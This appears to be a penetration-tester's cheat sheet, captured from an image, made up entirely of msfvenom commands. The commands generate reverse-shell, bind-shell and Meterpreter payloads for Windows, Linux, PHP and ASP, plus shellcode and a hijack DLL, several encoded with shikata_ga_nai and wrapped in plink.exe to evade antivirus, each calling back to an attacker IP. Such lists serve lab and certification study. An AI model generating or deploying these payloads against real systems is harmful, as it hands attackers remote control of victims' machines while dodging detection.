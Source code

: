 ## WINDOWS ENCODED PAYLOADS  PORT 443
====CHANGE. IP. AS. NEEDED.====

## WINDOWS/SHELL/REVERSE_TCP [PORT 443]
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x86) [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/SHELL_REVERSE_TCP (NETCAT x64) [PORT 443]
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x86) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_86.exe

## WINDOWS/METERPRETER/REVRESE_TCP (x64) [PORT 443] AT 10.0.0.67:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 --platform windows -a x64 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o reverse_encoded_64.exe


## ---===BIND SHELL, ENCODED, ON PORT 1234===---
msfvenom -p windows/shell_bind_tcp LHOST=10.0.0.67 LPORT=1234 --platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o bindshell_1234_encoded_86.exe

## Code for encoding:
--platform windows -a x86 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o payload_86.exe

================================================================================
##[+ LINUX ]
#### LINUX/x86/METERPRETER/REVERSE_TCP
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=9997 -f elf >reverse.elf

## NETCAT
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.67 LPORT=1234 -f elf >reverse.elf
================================================================================

## [+ PHP ]
#### PHP/METERPRETER_REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/METERPRETER/REVERSE_TCP [PORT 443]
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## PHP/REVERSE_PHP [PORT 443]
msfvenom -p php/reverse_php LHOST=10.0.0.67 LPORT=443 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
================================================================================

## [+ ASP]
#### ASP-REVERSE-PAYLOAD [PORT 443]
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

## OR FOR NETCAT [PORT 443]
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=443 -f asp > shell.asp

================================================================================
## [ + Client-Side, Unicode Payload - For use with Internet Explorer and IE]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f js_le -e generic/none

- Note: To keep things the same size, if needed add NOPs at the end of the payload.
### A Unicode NOP is - %u9090

================================================================================
===SHELLCODE GENERATION:
================================================================================
--===--
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.67 LPORT=80 EXITFUNC=thread -f python -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai
--===--
================================================================================
## DLL HiJacking - Windows - x64
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
================================================================================


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.47.29 LPORT=4444 -f powershell







